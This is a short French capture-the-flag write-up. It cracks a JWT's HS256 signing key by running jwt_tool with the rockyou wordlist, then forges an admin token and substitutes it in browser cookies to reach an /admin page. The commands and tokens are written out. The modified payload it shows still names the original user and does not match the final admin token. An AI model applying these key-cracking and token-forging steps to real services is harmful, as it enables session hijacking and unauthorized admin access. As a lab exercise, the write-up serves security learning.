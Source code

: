 # Write-up

Créer un JWT avec le pseudo de la persone : `{"pseudo": "drachh"}`. On reçoit la réponse du serveur avec le token signé.

```json
{
  "token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImRyYWNoaCIsImV4cCI6MTc0MTY0MDE4MH0.n6tJsCLw0RiQxL_xBFV9MHbeTtR_T2CarH5uCJQxEFM"
}
```

On peut utiliser un outil comme `jwt.io` pour décoder le token et voir la payload.

```json
{
  "alg": "HS256",
  "typ": "JWT"
}
{
  "username": "drachh",
  "exp": 1741640180
}
```

```bash
# Extrait la payload du token
jwt_tool.py "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImRyYWNoaCIsImV4cCI6MTc0MTY0MDE4MH0.n6tJsCLw0RiQxL_xBFV9MHbeTtR_T2CarH5uCJQxEFM"

# Bruteforce le token
jwt_tool.py "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImRyYWNoaCIsImV4cCI6MTc0MTY0MDE4MH0.n6tJsCLw0RiQxL_xBFV9MHbeTtR_T2CarH5uCJQxEFM" -C -d /usr/share/wordlists/rockyou.txt
```

On trouve la clé de chiffrement `lovelovelove`. On peut maintenant modifier la payload du token pour récupérer le flag. Pour cela rien de plus simple. On utilise la payload suivante dans JWT.io :

```json
{
  "alg": "HS256",
  "typ": "JWT"
}
{
  "username": "drachh",
  "exp": 1741640180,
}
```

Puis on signe avec la clé `lovelovelove`, il suffit de remplace le token dans les cookies du navigateur et visiter la page `/admin` pour obtenir le flag : `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNzQxNjQwMTgwfQ.TBYe9qyXLs17zhQU5AtWxJiNMkWBqhCJ6qnZhums3VI`.
